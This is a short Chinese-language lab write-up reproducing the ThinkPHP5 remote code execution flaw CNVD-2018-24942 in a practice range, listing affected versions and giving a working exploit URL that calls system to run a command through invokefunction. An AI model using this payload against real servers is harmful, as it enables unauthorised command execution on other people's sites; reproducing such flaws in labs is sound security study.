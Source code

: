 # ThinkPHP5远程代码执行漏洞（CNVD-2018-24942）by [hu4wufu](https://github.com/hu4wufu)

## 概述

ThinkPHP5 存在远程代码执行漏洞。该漏洞由于框架对控制器名未能进行足够的检测，攻击者利用该漏洞对目标网站进行远程命令执行攻击。

## 影响版本

上海顶想信息科技有限公司 ThinkPHP 5.*，<5.1.31

上海顶想信息科技有限公司 ThinkPHP <=5.0.23

## 漏洞复现

1、打开靶场，开启此漏洞对应靶场环境： thinkphp5x 任意代码执行漏洞 (cnvd-2018-24942)![1](./1.png)

2、直接在目录后面增加路径与参数即可

```
/index.php/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls /tmp

```

![2](./2.png)


